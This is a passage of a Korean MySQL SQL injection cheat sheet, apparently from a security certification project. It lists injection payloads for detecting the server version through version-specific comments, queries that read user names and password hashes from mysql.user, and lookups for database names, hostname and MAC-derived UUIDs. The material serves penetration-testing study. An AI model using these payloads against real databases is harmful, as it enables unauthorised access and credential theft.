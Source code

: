 `/*!버전 특정 코드*/`<br><br>

예 :<br>
`주어진 쿼리 SELECT * FROM Users limit 1,{INJECTION POINT};`<br><br>

`1 /*!50094eaea*/; 거짓 - 버전이 5.00.94 이상임.`<br>
`1 /*!50096eaea*/; 참 - 버전이 5.00.96 보다 작음.`<br>
`1 /*!50095eaea*/; 거짓 - 버전이 5.00.95 와 같음.`<br><br>

노트 :<br>
주입 위치로 인해 더 이상 SQL 쿼리에 추가할 수 없는 상황에서 버전을 판별하는 데 유용할 수 있음.<br>
MySQL 특정 코드에 대한 자세한 내용은 아래 ( 19 ) MySQL 특정 코드 부분을 참조 바람.<br><br><br>



## (5) 데이터베이스 자격 증명
![스크린샷 2024-04-17 오후 2 11 30](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/e5b243ae-9d8b-4832-a736-686d08842495)<br><br>


예 :<br>
`SELECT current_user;`<br>
`SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)`<br><br><br>



## (6) 데이터베이스 이름
![스크린샷 2024-04-17 오후 2 13 29](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/e9f4c5b6-d7d0-44c9-b63b-140980ec3b29)<br><br>

예 :<br>
`SELECT database();`<br>
`SELECT schema_name FROM information_schema.schemata;`<br>
`SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)`<br><br><br>



## (7) 서버 호스트 이름

@@HOSTNAME<br><br>

예 :<br>
`SELECT @@hostname;`<br><br><br>



## (8) 서버 MAC 주소

Universally Unique Identifier는 인터페이스 MAC 주소에서 마지막 12 자리 숫자가 형성된 128 비트 숫자임.<br><br>

UUID()<br><br>

예 :<br>
`aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee;`<br><br>

노트 :<br>
일부 운영 체제에서는 MAC 주소 대신 48 비트 임의의 문자열을 반환할 수 있음.<br><br><br>
